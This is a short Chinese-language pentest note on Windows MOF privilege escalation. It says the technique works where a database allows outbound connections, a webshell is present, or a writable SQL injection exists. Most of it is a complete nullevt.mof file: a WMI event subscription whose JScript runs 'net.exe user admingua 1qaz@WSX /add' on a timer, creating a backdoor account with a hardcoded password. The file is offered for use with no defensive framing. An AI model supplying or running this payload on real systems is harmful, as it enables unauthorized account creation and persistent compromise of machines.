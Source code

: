 对 c:/windows/system32/webm/mof 目录有读写权限

可以实现写mof文件到相应目录，例如:<u>数据库允许外联、有webshell、有可写的sql注入漏洞</u>等情况

​​

###### 提权方法

1.可写目录中上传mof文件（创建用户）

nullevt.mof文件

```bash
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
	EventNamespace = "Root\\Cimv2";
	Name  = "filtP2";
	Query = "Select * From __InstanceModificationEvent "
			"Where TargetInstance Isa \"Win32_LocalTime\" "
			"And TargetInstance.Second = 5";
	QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
	Name = "consPCSV2";
	ScriptingEngine = "JScript";
	ScriptText =
	"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admingua 1qaz@WSX /add\")";
};

instance of __FilterToConsumerBinding
{
	Consumer   = $Consumer;
	Filter = $EventFilter;
};


```

​​![image](assets/image-20241029100453-g798bfw.png)​​
